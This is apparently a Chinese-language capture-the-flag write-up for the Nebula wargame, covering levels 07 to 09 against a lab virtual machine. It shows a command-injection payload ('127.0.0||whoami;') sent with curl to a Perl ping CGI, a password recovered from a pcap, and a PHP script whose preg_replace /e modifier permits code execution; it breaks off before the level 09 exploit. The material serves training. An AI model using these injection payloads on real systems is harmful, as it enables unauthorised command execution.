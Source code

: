 虽然不懂Perl，但一看下就是$host没做任何过滤，所以可能会存在命令执行漏洞。这个脚本位于 `/home/flag07/index.cgi`, 然后通过 `thttpd.conf` 可知，这应该是使用http协议，监听了7007端口，然后接收Host参数，所以

```
$ curl  http://192.168.56.101:7007/index.cgi\?Host\="127.0.0||whoami;" 
<html><head><title>Ping results</title></head><body><pre>flag07
</pre></body></html>
$ curl  http://192.168.56.101:7007/index.cgi\?Host\="127.0.0||getflag;"
<html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
</pre></body></html>
```
这是最简单的方法，因为这题的目的就是让我们getflag, 不过还可以进行提高，怎么getshell呢？去看LL菊苣的wp吧。。。。我没做出来。。thttpd一直报400错误。。

# Level08

这题是流量审计，在 `/home/flag08` 里面有一个pcap文件，拖到本地用Wireshark，然后发现全是TCP包，然后有些是包含一些不全的数据，这时候可以使用wireshark跟踪tcp流的功能
> 右击任意一个TCP包，点击Follow TCP Stream
![tcpl](http://7xscw6.com1.z0.glb.clouddn.com/hexo-tcpl.png)

然后查看密码的十六进制
![tcpl](http://7xscw6.com1.z0.glb.clouddn.com/hexo-tcpl2.png)

可知中间跟了几个0x7f(DEL)，所以密码是 `backd00Rmate`

```
$ ssh flag08@nebula
flag08@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# Level09

这题是php代码审计:
```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```
